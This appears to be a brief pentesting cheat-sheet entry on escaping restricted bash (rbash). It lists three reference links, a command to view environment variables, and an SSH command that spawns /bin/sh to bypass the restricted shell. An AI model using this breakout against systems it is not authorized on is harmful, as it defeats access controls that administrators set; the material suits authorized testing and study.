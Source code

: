# Restricted shell breakout

## rbash
- [A medium article](https://systemweakness.com/how-to-breakout-of-rbash-restricted-bash-4e07f0fd95e)
- [A gist](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290)
- [0xffsec handbook](https://0xffsec.com/handbook/shells/restricted-shells/)

View env variables
```bash
export -p
```

If you can ssh in the machine, you could try executing commands from the outside
```bash
ssh user@target -t "/bin/sh"
```
